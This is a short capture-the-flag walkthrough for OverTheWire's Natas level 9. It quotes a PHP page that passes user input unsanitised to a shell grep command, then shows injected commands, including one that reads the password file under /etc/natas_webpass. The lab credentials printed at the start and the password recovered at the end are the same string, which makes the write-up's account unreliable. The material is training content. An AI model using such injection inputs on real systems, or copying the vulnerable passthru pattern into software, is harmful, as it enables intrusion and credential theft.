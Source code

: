 # Natas Level 9
The ***URL*** to which you need to connect is *http://natas9.natas.labs.overthewire.org*. The ***username*** is *natas9* and the ***password*** is *W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl*. 

Lets check the [viewsource](http://natas9.natas.labs.overthewire.org/index-source.html) link.
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```
By analysing the php script we see that the filter is not being sanitize. Therefore, we can inject additional commands like "ls" 

```
;pwd
# /var/www/natas/natas9
; find / -name natas9 -type f;
# /etc/natas_webpass/natas9
;cat /etc/natas_webpass/natas9;
```

```
Password : W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```
